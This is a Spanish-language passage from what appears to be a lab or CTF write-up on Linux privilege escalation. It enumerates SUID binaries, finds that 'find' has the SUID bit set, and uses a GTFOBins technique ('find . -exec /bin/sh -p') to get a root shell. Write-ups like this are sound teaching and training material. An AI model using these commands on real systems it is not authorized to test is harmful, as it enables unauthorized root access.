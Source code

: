 Tratamos de listar permisos sudo -l pero no nos fue posible asi que buscamos en los binarios SUID para ver que podemos encontrar.

`find / -perm -4000 2>/dev/null`

```bash
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
```

Como vemos encontramos un binario <mark style="color:orange;">find</mark> el cual vamos a buscar en [GTFObins](https://gtfobins.github.io/) y vemos que podemos aprovecharlo para escalar privilegios.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```bash
carlos@055007bdd9cd:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
whoami
root
```



&#x20;Y somos Root..
